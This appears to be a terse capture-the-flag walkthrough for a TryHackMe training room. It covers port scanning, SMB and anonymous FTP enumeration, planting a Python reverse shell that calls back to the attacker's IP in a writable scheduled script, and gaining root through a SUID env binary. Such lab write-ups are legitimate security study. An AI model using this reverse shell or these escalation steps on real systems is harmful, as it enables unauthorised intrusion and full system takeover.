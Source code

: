 https://tryhackme.com/room/anonymous

```
export IP=10.10.106.120; export MYIP=10.4.18.63
```

# nmap
## init
```
PORT    STATE SERVICE
21/tcp  open  ftp
22/tcp  open  ssh
139/tcp open  netbios-ssn
445/tcp open  microsoft-ds
```
## extended
```

```

# smb
```
$ smbclient -L "\\\\$IP"
Password for [WORKGROUP\kali]:

        Sharename       Type      Comment
        ---------       ----      -------
        print$          Disk      Printer Drivers
        pics            Disk      My SMB Share Directory for Pics
        IPC$            IPC       IPC Service (anonymous server (Samba, Ubuntu))
```

# ftp
#ftp #mget #put
`$ ftp "ftp://anonymous@$IP"`
```
ftp> cd scripts
ftp> binary
ftp> mget *
```
## Files retrieved:
```
get clean.sh
get removed_files.log
get to_do.txt
```
## Attack
```
$ echo 'python -c 'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.4.18.63",7780));os.dup2(s
.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")'' > shell.sh 

ftp> cd scripts
ftp> append shell.sh clean.sh
```
or
```
# update clean.sh locally and then:
ftp> put clean.sh
```

# low-level shell
```
$ id
uid=1000(namelessone) gid=1000(namelessone) groups=1000(namelessone),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),108(lxd)
$ hostname
anonymous
$ sudo -l
[sudo] password for namelessone: 
```

# root
#suid #env
```
$ ls -la /usr/bin/env
-rwsr-xr-x 1 root root 35000 Jan 18  2018 /usr/bin/env

$ /usr/bin/env /bin/sh -p
# whoami
root
```
